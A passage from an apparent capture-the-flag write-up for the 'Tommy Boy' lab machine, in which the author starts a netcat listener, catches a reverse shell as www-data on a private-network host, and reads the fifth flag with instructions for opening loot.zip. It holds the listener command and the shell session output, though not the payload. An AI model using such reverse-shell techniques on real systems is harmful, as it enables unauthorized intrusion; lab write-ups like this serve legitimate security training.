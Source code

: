 I first set up a netcat listener and then we ran with the browser our reverse shell.

![](/assets/images/tommyboy/screenshot-26.png)

Finally I got a reverse shell, in the path /.5.txt found the flag number 5, but we need the fourth flag to complete the challenge and so we would join all flags and unzip the loot.zip file.

```bash
root@kali:~$ nc -vlnp 443                                    
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.149] 49788
Linux CallahanAutoSrv01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 10:57:10 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (1295): Inappropriate ioctl for device
bash: no job control in this shell
www-data@CallahanAutoSrv01:/$ ls -la
ls -la
total 105
drwxr-xr-x  25 root     root      4096 Jul 15  2016 .
drwxr-xr-x  25 root     root      4096 Jul 15  2016 ..
-rwxr-x---   1 www-data www-data   520 Jul  7  2016 .5.txt
drwxr-xr-x   2 root     root      4096 Jul  6  2016 bin
drwxr-xr-x   4 root     root      1024 Jul 14  2016 boot
...
www-data@CallahanAutoSrv01:/$ cat .5.txt
cat .5.txt
FIFTH FLAG!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
YOU DID IT!!!!!!!!!!!!!!!!!!!!!!!!!!!!
OH RICHARD DON'T RUN AWAY FROM YOUR FEELINGS!!!!!!!!

Flag data: Buttcrack

Ok, so NOW what you do is take the flag data from each flag and blob it into one big chunk.
So for example, if flag 1 data was "hi" and flag 2 data was "there" and flag 3 data was "you"
you would create this blob:

hithereyou

Do this for ALL the flags sequentially, and this password will open the loot.zip in Big Tom's folder and you can call the box PWNED.
```
